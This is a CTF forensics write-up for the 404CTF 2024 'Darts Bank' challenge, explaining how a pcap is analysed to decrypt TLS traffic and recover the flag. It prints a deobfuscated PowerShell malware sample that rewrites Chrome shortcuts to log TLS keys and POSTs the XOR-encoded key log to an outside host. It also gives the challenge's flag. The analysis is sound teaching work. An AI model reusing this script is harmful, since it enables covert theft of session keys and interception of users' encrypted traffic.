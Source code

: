 ```yaml
---
title: CTFs | 404CTF_2024 | Investigation Numerique | Darts Bank
author: BatBato
date: 2024-04-25
categories:
  - CTFs
  - 404_CTF_2024
  - Investigation Numerique
tags:
  - Forensique
  - Forensic
permalink: /CTFs/404_CTF_2024/Investigation_Numerique/Darts_Bank
---
```

# Darts Bank

![[dart_enonce.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/Photos/dart_enonce.png)

In this challenge, we are given [this pcap](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/dart.pcapng)  file. If we open it using wireshark, we can see a lot of `HTTP` traffic. When we click on the first one and follow the TCP stream, we get the following output on the third stream:

![[dart_wireshark.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/Photos/dart_wireshark.png)

As you can see, this is some powershell script that has been base64 encoded. Once decoded and deobfuscated, we obtain the following code (available [here](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/script.ps1)):

```powershell
foreach($bbbbbbbbbbbb in Get-ChildItem -Recurse -Path C:\Users -ErrorAction SilentlyContinue -Include *.lnk){

$bbbbbbbbbbbbbbb=New-Object -COM WScript.Shell;

$bbbbbbbbbbbbbbbb=$bbbbbbbbbbbbbbb.CreateShortcut($bbbbbbbbbbbb);

  if($bbbbbbbbbbbbbbbb.TargetPath -match 'chrome\.exe$'){

    $bbbbbbbbbbbbbbbb.Arguments="--ssl-key-log-file=$env:TEMP\defender-res.txt";

    $bbbbbbbbbbbbbbbb.Save();

  }

}

$count=0;
$file_path="$env:TEMP\defender-res.txt";
$byte_array=[byte[]](215,194,...,120);

while($true){

  $file_info=Get-Item -Path $file_path;
  $file_size=$file_info.Length;

  if($file_size -gt $count){
    $defender_res=[System.IO.File]::Open($file_path,[System.IO.FileMode]::Open, [System.IO.FileAccess]::Read,[System.IO.FileShare]::ReadWrite);
    $defender_res.Seek($count,[System.IO.SeekOrigin]::Begin)|Out-Null;
    $b64_str=New-Object byte[] ($file_size - $count);
    $defender_res.read($b64_str,0,$file_size - $count)|Out-Null;

    for($i=0;$i -lt $b64_str.count;$i++){

      $b64_str[$i]=$b64_str[$i] -bxor $byte_array[$i % $byte_array.count];

    }

    $data=[Convert]::ToBase64String($b64_str);

    Write-Output $data;

    Invoke-WebRequest -Uri http://192.168.78.89/index.html -Method POST -Body $data|Out-Null;

    $defender_res.Close()|Out-Null;

  }

  $count=$file_size;

  Start-Sleep -Seconds 5;

}
```

The problem here was to understand what this powershell does. And it was "just" a `XOR` between the key (big string of byte) and the message saved in `defender-res.txt`. The encoded message could be found in the next streams. I exported every `index.html` and used [this script](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/exploit.py). I first read the content of each `index.html` file that I exported and then decode the base64 to `XOR` it with the key.

We get the following result:

![[dart_cert.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/Photos/dart_cert.png)

After a bit of research, I found [this article ](https://www.comparitech.com/net-admin/decrypt-ssl-with-wireshark/) on how to decrypt `SSL` traffic in `Wireshark`. So we need to save the content of all those `index.html` file decoded into a single file and put it into `Wireshark` like so:

![[dart_wireshark1.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/Photos/dart_wireshark1.png)

Now, we can read the content of all HTTPS messages. We can use the filter `http2.data.data && data-text-lines contains "404CTF"` to find the flag easily and... Voilà:

![[dart_flag.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Invesigation_numerique/Photos/dart_flag.png)

The flag is `404CTF{En_pl31n_d4ns_l3_1337_v1@_sUp3r_TLS_d3crypt0r}`.